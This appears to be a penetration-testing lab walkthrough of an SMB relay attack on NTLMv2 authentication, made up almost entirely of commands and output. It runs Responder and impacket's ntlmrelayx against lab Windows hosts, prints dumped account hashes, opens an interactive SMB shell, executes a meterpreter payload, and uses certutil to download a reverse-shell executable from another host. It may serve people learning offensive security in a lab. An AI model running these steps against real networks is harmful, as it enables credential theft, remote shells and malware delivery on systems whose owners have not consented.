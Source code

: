 **Type of attack which relies on NTLM Version 2 authentication that is normally used in most companies**.
First, we must edit the responder config file and disable SMB and HTTP.

```bash - Kali
sudo mousepad /usr/share/responder/Responder.conf
```

Turn off SMB and HTTP:

Next, we will utilize nmap to look for message signing settings.
```bash
nmap --script=smb2-security-mode.nse -p445 192.168.111.129,130,132 -Pn
```


```bash
mousepad targets.txt
```

Put in 1 of the 2 Windows 10 IPs where message signing is enabled, but not required.
```bash
sudo responder -I eth0 -dwv
```

```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support
```

In Windows1 VM, enter `\\$Kali_IP` in file explorer address bar, and hit enter.

Back in Kali:

We got hashes.
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`
`Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`
`DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`
`WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:1c3880cdb104506112fafa98c4c3a1df:::`
`Gamora:1001:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::`

Lets try to get an interactive shell:

```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -i
```

We see in the above image, an interactive SMB shell has opened on 127.0.0.1:1100.
```bash
sudo rlwrap -cAr nc 127.0.0.1 11000
```


```bash
help
```

```bash
shares
```

```bash
use C$
```

```bash
ls
```

We could also compile a meterpreter shell, load and execute it:
```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -e meterpreter.exe
```

We could also run normal commands:
```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -c "certutil -urlcache -split -f http://10.10.0.27/reverse.exe"
```

```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```